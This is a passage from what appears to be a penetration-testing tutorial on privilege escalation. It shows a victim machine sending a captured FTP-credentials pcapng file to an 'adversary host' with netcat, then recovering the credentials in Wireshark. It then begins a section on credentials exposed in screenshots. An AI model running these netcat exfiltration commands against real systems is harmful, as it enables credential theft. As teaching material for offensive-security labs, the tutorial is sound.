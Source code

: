 Set up a listener on your adversary host:

```shell
❯ nc -l -p 1234 > ftp-creds.pcapng
```

Send the `pcapng` file to the adversary host:

```shell
sudo nc -w 3 10.10.10.15 1234 < /home/user/Desktop/ftp-creds.pcapng
```

Verify the checksum on the victim/target host/machine:

```shell
user@pwn:~$ md5sum /home/user/Desktop/ftp-creds.pcapng
xxxxxxxxxxxxxxxx  /home/user/Desktop/ftp-creds.pcapng
```

Verify the checksum on our adversary host/machine:

```shell
❯ md5sum ftp-creds.pcapng
xxxxxxxxxxxxxxxx  ftp-creds.pcapng
```

The hashes are the same which means that the integrity of the file is the same which means that they are the same files.

Now let's open wireshark in our adversary host/machine:

{{< image src="/images/posts/open-wireshark-capture.png" caption="Open Wireshark Capture" src_s="/images/posts/open-wireshark-capture.png" src_l="/images/posts/open-wireshark-capture.png" >}}

Follow the TCP stream of the capture to find the credentials.

# Privilege Escalation via Images

Screenshots or pictures/photos of credentials is very a common mistake that could happen anywhere.

### Screenshot Scenario

To demonstrate this example, I'm going to use `flameshot` to take a screenshot. we can use any screenshot tool.

```shell
sudo apt update && sudo apt install flameshot
```

Then I'm going to execute `flameshot`:

{{< image src="/images/posts/flameshot-icon.png" caption="Flameshot Icon" src_s="/images/posts/flameshot-icon.png" src_l="/images/posts/flameshot-icon.png" >}}

Now I'm going to take a screenshot:

{{< image src="/images/posts/take-screenshot.png" caption="Flameshot Take Screenshot" src_s="/images/posts/take-screenshot.png" src_l="/images/posts/take-screenshot.png" >}}

Select the area that we want to screenshot. Use any text editor of your choosing.
